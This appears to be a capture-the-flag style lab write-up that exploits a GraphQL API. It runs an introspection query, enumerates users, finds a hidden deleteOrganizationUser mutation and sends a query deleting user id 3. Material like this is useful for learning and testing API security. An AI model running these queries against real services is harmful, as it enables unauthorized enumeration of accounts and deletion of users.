<img width="1317" height="438" alt="image" src="https://github.com/user-attachments/assets/1dfa68f6-e45c-4d8e-8671-8b69a4dee4e9" />


now use full ``introspection`` qurey 

```json
{
  "query": " query IntrospectionQuery { __schema\n { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}

```

<img width="1549" height="705" alt="image" src="https://github.com/user-attachments/assets/e453946c-1581-408f-9545-f8e30d78be1e" />

 ### > use [Introspection Visualization](http://nathanrandal.com/graphql-visualizer/)

<img width="1874" height="580" alt="image" src="https://github.com/user-attachments/assets/02b0bd11-6c73-450d-8307-f4c6419c645c" />

now get users

```json
{
  "query": "{ getUser(id: 1) { id username }}"
}
```

<img width="1402" height="472" alt="image" src="https://github.com/user-attachments/assets/eb842d5b-c4fe-41d7-bd12-fbb7a525e6ea" />

```
id   user
1     adminstrator
2     wiener
3     carlos
```

in ``schema`` foud this ``DeleteOrganizationUserInput``

<img width="771" height="603" alt="image" src="https://github.com/user-attachments/assets/ce921faf-ca9f-48b8-9711-e13caa58d0a1" />

download **`inql`** extension to burp and take the json respose of **``introspection``** to it to see the ``mutaion`` 

<img width="1264" height="447" alt="image" src="https://github.com/user-attachments/assets/74c533cd-2e73-462b-8834-cad3cba39347" />

or use this simple query :

```json
{
  "query": "{ __schema\n { mutationType { name fields { name args { name type { name kind } } } } }}"
}
```

<img width="1441" height="467" alt="image" src="https://github.com/user-attachments/assets/d1eee12e-d58d-4b96-b6a9-3458cabccbbd" />


good now we know that there is **``mutaion``** call **``DeleteOrganizationUserInput``** 

### > Discover the fields inside ``DeleteOrganizationUserInput``

```json
{
  "query": "{ __type(name: \"DeleteOrganizationUserInput\")\n { name kind inputFields { name type { name kind ofType { name kind } } } }}"
}
```

``output``

<img width="1532" height="519" alt="image" src="https://github.com/user-attachments/assets/049c1775-e902-48d6-9e24-17d9dd7c968a" />


so it require the **``id``**

```json
{
  "query": "mutation { deleteOrganizationUser(input: { id: 3 }) { __typename }}"
}
```

<img width="1226" height="399" alt="image" src="https://github.com/user-attachments/assets/555e0324-a75a-4979-a877-078504f1bfa8" />




  
</details>


































